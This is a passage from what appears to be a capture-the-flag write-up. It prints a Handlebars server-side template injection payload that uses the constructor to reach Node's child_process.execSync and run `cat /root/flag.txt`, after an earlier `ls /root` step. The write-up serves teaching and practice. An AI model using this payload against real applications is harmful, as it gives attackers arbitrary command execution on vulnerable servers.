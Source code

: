 With the payload above which contains the command `ls /root`, I was able to confirm that the `root` directory contains the flag.txt file. All I need to do is modify the payload further for the one last time to display the flag.

![alt text](image-7.png#center)

<br>

```js
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}
```

Got the flag.
